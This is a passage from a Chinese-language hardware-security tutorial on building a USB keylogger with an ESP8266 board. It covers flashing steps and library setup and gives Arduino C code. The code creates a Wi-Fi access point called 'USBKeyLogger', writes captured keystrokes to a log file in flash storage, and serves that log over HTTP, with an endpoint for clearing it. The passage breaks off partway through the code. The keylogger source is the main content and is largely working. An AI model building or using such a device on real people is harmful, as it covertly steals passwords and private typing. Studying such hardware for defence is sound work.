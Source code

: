 ![](../../../../../assets/img/Security/IOT/硬件安全/HID/HID-USBKeylogger/11.jpg)

最后在端口菜单中，选择 USB2TTL 的 COM 口(除了 COM1，可能是 COM3、COM4)，然后点击“项目-上传”，将代码烧录到开发板上。

比较麻烦的部分是要安装 ESP8266 的扩展，而且有可能会头文件丢失

> 注:这里在 GitHub 上找到了 lib 文件终于能成功的在代码里 include 到,相应库放在图片目录下,解压放到 arduino 的 libraries

```C
#include <ESP8266WiFi.h>
#include <FS.h>
#include <ESPAsyncTCP.h>
#include <ESPAsyncWebServer.h>

const char *ssid = "USBKeyLogger";
const char *password = "12345678";

AsyncWebServer server(80);
File logFile;

void setup() {
  Serial.begin(115200);
  WiFi.mode(WIFI_STA);
  WiFi.softAP(ssid,password);
  SPIFFS.begin();
  logFile = SPIFFS.open("/keyLog.txt", "a+");

  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){
    request->send(SPIFFS, "/keyLog.txt", "text/plain");
  });

  server.on("/clear", HTTP_GET, [](AsyncWebServerRequest *request){
    logFile.close();
    logFile = SPIFFS.open("/keyLog.txt", "w");
    request->send(200, "text/plain", "Log File Cleared!");
  });

  server.begin();
```